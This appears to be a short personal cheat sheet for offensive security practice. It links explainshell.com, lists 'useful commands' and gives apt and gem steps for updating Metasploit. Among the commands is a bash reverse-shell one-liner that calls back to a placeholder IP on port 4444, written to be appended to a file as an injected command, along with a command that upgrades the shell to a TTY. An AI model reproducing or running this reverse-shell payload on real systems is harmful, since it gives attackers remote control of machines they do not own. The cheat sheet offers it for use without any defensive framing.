 - Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null


- How to update metasploit-framework

sudo apt update
sudo apt install metasploit-framework

sudo apt install gem

sudo gem install bundler

sudo msfdb reinit

sudo msfconsole
